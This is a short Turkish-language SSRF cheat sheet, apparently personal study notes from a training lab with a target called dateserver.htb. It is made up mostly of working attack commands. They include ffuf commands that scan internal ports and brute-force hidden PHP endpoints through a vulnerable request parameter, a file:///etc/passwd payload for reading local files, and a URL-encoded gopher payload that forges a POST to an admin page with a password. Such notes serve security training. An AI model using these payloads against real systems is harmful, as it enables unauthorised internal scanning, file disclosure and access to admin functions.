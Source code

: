 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/ssrf-ch/"}
---
```




### 1- SSRF Port Taraması Örneği 

```shell-session
[!bash!]$ seq 1 10000 > ports.txt
```

```bash
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

### 2- Local File Inclusion (LFI)

`file://` şemasıyla örneğin `file:///etc/passwd` yazarak web uygulaması üzerinden local dosya okunabilir.

![Pasted image 20250331145314.png](/img/user/resimler/Pasted%20image%2020250331145314.png)

### 3-Kısıtlanmış Endpoint'lere Erişim

![Pasted image 20250331144956.png](/img/user/resimler/Pasted%20image%2020250331144956.png)

Gördüğümüz gibi, **web server** varsayılan **Apache 404** yanıtını döndürüyor. Ayrıca, **HTTP 403** yanıtlarını da filtrelemek için, **Apache varsayılan hata sayfalarında bulunan** `Server at dateserver.htb Port 80` ifadesine göre sonuçlarımızı filtreleyeceğiz. **Web application** PHP çalıştırdığından, `.php` uzantısını belirteceğiz.

```shell-session
[!bash!]$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"

<SNIP>

[Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 3872ms]
    * FUZZ: admin
[Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 6ms]
    * FUZZ: availability
```

### 4- gopher Protocol

 * gopher URL'si oluşturmak için tüm özel karakterleri URL olarak encode etmemiz gerekir. 
 * Daha sonra, verileri gopher URL şeması, hedef host ve port ve bir alt çizgi ile prefix'lememiz gerekir, böylece aşağıdaki gopher URL'si elde edilir:

```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
